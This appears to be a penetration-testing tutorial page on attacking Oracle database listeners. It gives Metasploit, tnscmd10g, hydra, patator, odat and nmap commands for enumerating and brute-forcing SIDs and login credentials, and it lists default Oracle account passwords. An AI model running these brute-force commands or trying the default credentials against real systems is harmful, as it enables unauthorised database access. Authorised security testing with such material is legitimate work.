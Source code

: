 ```bash
tnscmd10g status-p 1521 -h <IP> #The SID are inside: SERVICE=(SERVICE_NAME=<SID_NAME>)

#msf1
msf> use auxiliary/scanner/oracle/sid_enum
msf> set rhost <IP>
msf> run
#msf2
msf> use auxiliary/admin/oracle/tnscmd
msf> set CMD (CONNECT_DATA=(COMMAND=STATUS))
msf> set rhost <IP>
msf> run #The SID are inside: SERVICE=(SERVICE_NAME=<SID_NAME>)
```

If you cant access this way to the SIDs you will need to bruteforce them:

## SID Bruteforce

I have merged the nmap and MSF sid lists into this one (without duplicates):

[sids-oracle.txt](https://secybr.com/assets/file/oracle/sids-oracle.txt)

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 <IP> oracle-sid
patator oracle_login host=<IP> sid=FILE0 0=sids-oracle.txt -x ignore:code=ORA-12505
./odat.py sidguesser -s $SERVER -d $SID --sids-file=./sids.txt
msf> use auxiliary/admin/oracle/sid_brute #This will use the list located at /usr/share/metasploit-framework/data/wordlists/sid.txt
nmap --script +oracle-sid-brute -p 1521 10.11.1.202 #This will use the list lcated at /usr/share/nmap/nselib/data/oracle-sids
```

In order to use `oracle_login` with patator you need to install:

```bash
pip3 install cx_Oracle --upgrade
```

## Targeting Accounts

Got SID? Excellent, now let’s move to the next task and extract the user account information. From this point, you can connect to the listener and brute-force credentials.

Metasploit `scanner/oracle/oracle_login` It has a built-in dictionary for the most popular default values of user account information presented as `login:password`. By the way, such default entries represent one of the most popular and serious security problems in Oracle.

Nmap can also help here with the script `oracle-brute`. Note that this script mixes the logins and passwords, that is, it tries each login against every password, and it takes quite a while!

## Default Passwords

Below are some of the default passwords associated with Oracle:

```bash
DBSNMP/DBSNMP - Intelligent Agent uses this to talk to the db server (its some work to change it)
SYS/CHANGE_ON_INSTALL - Default sysdba account before and including Oracle v9, as of version 10g this has to be different!
PCMS_SYS/PCMS_SYS - Default x account
WMSYS/WMSYS - Default x account
OUTLN/OUTLN - Default x account
SCOTT/TIGER - Default x account
```
